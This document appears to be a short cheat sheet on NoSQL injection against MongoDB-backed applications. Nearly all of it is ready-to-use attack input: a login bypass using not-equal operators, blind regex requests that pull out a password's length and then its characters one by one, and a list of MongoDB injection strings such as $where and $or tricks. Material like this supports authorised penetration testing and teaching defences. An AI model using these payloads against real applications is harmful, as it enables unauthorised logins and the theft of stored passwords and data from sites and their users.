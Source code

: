 # NoSQL-injection
NoSQL injection


# NoSQL injection
NoSQL databases provide looser consistency restrictions than traditional SQL databases. By requiring fewer relational constraints and consistency checks, NoSQL databases often offer performance and scaling benefits. Yet these databases are still potentially vulnerable to injection attacks, even if they aren't using the traditional SQL syntax.

## Exploit

Basic authentication bypass using not equal ($ne)
```
username[$ne]=toto&password[$ne]=toto
```

Extract length information
```
username[$ne]=toto&password[$regex]=.{1}
username[$ne]=toto&password[$regex]=.{3}
```

Extract data information
```
username[$ne]=toto&password[$regex]=m.{2}
username[$ne]=toto&password[$regex]=md.{1}
username[$ne]=toto&password[$regex]=mdp

username[$ne]=toto&password[$regex]=m.*
username[$ne]=toto&password[$regex]=md.*
```

## MongoDB Payloads
```
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
```


## Thanks to
* https://www.dailysecurity.fr/nosql-injections-classique-blind/
* https://www.owasp.org/index.php/Testing_for_NoSQL_injection
* https://github.com/cr0hn/nosqlinjection_wordlists
